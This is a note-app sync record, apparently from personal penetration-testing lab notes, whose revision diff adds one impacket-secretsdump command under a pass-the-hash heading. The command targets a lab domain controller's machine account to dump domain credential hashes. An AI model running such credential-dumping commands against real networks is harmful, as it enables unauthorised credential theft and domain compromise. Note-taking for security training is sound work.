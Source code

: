 id: 2329787a8e6c43aea35c580810ef732c
parent_id: 2f4b7ae3bb6846b9b54ff8fd1448da0a
item_type: 1
item_id: ac73f98de647453982f599882f52fae3
item_updated_time: 1651597249280
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"\\\n# PTH\\\n\\\n\"],[1,\"impacket-secretsdump -no-pass -just-dc THINC.LOCAL/MASTER\\\\\\\\$@10.11.1.220\\\n\\\n\"],[0,\"impacket\"]],\"start1\":907,\"start2\":907,\"length1\":16,\"length2\":90}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-04T15:59:28.989Z
created_time: 2022-05-04T15:59:28.989Z
type_: 13